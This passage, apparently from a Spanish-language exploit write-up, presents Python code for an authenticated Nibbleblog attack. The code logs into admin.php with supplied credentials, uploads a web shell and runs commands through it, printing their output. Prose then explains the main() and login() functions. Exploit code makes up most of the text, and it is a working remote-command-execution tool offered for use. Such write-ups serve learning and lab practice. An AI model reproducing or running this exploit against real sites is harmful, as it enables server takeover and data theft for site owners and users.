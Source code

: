 ```python3
                    command = SESSION.get(url=exec_path, params=params, verify=False)
                    print(command.text)
            else:
                sys.exit("[ - ] Shell upload failed, exiting")
        except Exception as e:
            sys.exit("[-] Exception: {}".format(e))
    else:
        sys.exit("Error uploading shell, exiting!")    



def main():
    options = get_arguments()
    target = options.target
    username = options.user
    password = options.password
    execute_commands(target, username, password)

if __name__ == "__main__":
    SESSION = requests.Session()
    main()
```
# Exploit Explicacion

Ahora explicaré las partes más importantes del exploit.
```python3
def main():
    options = get_arguments()
    target = options.target
    username = options.user
    password = options.password
    execute_commands(target, username, password)

if __name__ == "__main__":
    SESSION = requests.Session()
    main()
```
Aquí lo que hacemos es crear el main el cual obtendrá toda la información a través de parámetros utilizando la función llamada get\_arguments, una vez obtenida la información ejecuta la función execute\_commands. Antes de ejecutar main se crea una SESSION para las peticiones web. Esto es para que al logearme como el usuario la sesión se mantenga.

```python3
def login(target, username, password):
    login_url = f'{target}/nibbleblog/admin.php'
    data = {"username": username, "password": password}
    try:
        r = SESSION.post(login_url, data, timeout=10, verify=False)
        if 'Dashboard' in r.text:
            print("[ + ] Login Succesfuly!")
        else:
            sys.exit("[ ! ] Login failed, exiting")
    except Exception as e:
        sys.exit("[-] Exception: {}".format(e))
```
Esta parte lo que hace es obtenerme un login como usuario en el nibbleblog a través de las credenciales proporcionadas por el usuario. Tener en cuenta que esto funciona debido a que en el main creamos ya una petición con la función SESSION y que ahora estamos reutilizando dicha petición.
